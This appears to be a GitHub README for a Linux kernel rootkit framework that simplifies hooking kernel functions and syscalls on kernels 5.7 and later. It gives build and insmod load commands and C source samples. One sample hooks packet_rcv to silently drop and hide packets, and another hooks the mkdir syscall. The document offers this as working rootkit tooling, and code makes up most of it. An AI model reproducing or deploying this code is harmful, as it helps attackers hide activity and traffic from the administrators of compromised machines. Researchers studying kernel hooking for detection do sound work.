 # LKM Hijacking Framework (under construction)

- a small framework made for shorting the process of hooking functions and syscalls in linux kernel module rootkits on linux kernel 5.7+

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```

### example for hiding packets (hooking packet_rcv):

a code sample from src/packet_hide.c:
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! packet_rcv");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```

### live example:
![Live_example](live_example.gif)

### example for hooking mkdir syscall (source: https://github.com/xcellerator/linux_kernel_hacking/blob/1ce0db23318d73a19e046a36da731e43c42faf41/3_RootkitTechniques/3.1_syscall_hooking/rootkit.c):

a code sample from src/open_hook.c:
```c
#include "syscall_hooking.h"

struct hooked_syscall nr_open;

typedef asmlinkage long (*orig_mkdir_t)(const struct pt_regs *);
orig_mkdir_t orig_mkdir;

asmlinkage int hook_mkdir(const struct pt_regs *regs)
{
    char __user *pathname = (char *)regs->di;
    char dir_name[NAME_MAX] = {0};

    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);

    if (error > 0)
        printk(KERN_INFO "rootkit: Trying to create directory with name: %s\n", dir_name);

    orig_mkdir(regs);
    return 0;
}

int init_open_hook (void){

	nr_open.syscall = __NR_mkdir;
	nr_open.fake_syscall = &hook_mkdir;

	orig_mkdir = (orig_mkdir_t)hook_syscall(&nr_open);
	return 1;
}

int exit_open_hook (void){

	reset_syscall(&nr_open);
	return 1;
}
```

### live example:
![Live_example](live_example2.gif)
